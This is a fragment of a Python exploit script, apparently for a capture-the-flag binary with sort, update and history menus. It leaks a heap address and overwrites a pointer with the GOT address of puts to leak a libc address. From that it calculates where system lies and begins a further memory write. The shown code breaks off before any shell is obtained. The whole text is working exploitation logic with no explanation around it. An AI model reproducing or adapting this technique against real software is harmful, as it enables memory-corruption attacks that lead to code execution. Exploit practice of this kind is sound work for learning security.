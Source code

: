 ```
       sub_quit(io)
 
       history(io)
       io.read_until("ID = 1")
       io.read_until("Data = 2 ")
       data = int(io.read_until(" ")[:-1])
       heap_addr = struct.unpack("I", struct.pack("i", data))[0]
 
       print "heap_addr:", hex(heap_addr)
       data_buff = heap_addr - 0x08
       print "data_buff:", hex(data_buff)
 
       clear(io)
       #io.interact()
 
       seq = ["1"]
       sort(io, seq)
       sub_sort(io)
       sub_quit(io)
 
       seq = ["1"]
       sort(io, seq)
       sub_sort(io)
       sub_quit(io)
 
       #2
       seq = ["1"]
       sort(io, seq)
       sub_sort(io)
 
       puts_got = 0x0804d030
       sub_update(io, 1, puts_got)
       sub_quit(io)
 
       history(io)
 
       io.read_until("ID = 2")
       io.read_until("Len = ")
       data = int(io.read_until(", Data")[:-6])
       real_addr = struct.unpack("I", struct.pack("i", data))[0]
 
       print "real_addr:", hex(real_addr)
 
       #elf_info = ELF("./libc.so.6")
       elf_info = ELF("./libc.so")
       print hex(elf_info.symbols["puts"])
 
       libc_addr = real_addr - elf_info.symbols["puts"]
       system_addr = libc_addr + elf_info.symbols["system"]
      
       print "system addr:", hex(system_addr)
      
       #
       seq = ["4"] * 1
       sort(io, seq)
       sub_sort(io)
      
       zero_area = data_buff + (2 + 5 + 5) * 4
       sub_update(io, 1, zero_area)
       sub_quit(io)
 
       history(io)
       #io.gdb_hint()
```
